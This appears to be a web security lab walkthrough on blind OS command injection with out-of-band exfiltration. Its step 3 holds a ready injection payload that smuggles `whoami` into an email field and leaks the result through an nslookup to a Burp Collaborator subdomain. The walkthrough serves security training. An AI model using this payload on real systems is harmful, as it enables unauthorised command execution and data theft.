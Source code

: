 1. Go to the Burp menu, and launch the Burp Collaborator client.

2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.

3. Capture the request POST /feedback/submit. Modify the email parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated: email=||nslookup `whoami`.YOUR-SUBDOMAIN-HERE.burpcollaborator.net||

4. Go back to the Burp Collaborator client window, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.

5. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Burp Collaborator client. The full domain name that was looked up is shown in the Description tab for the interaction.

6. To complete the lab, enter the name of the current user.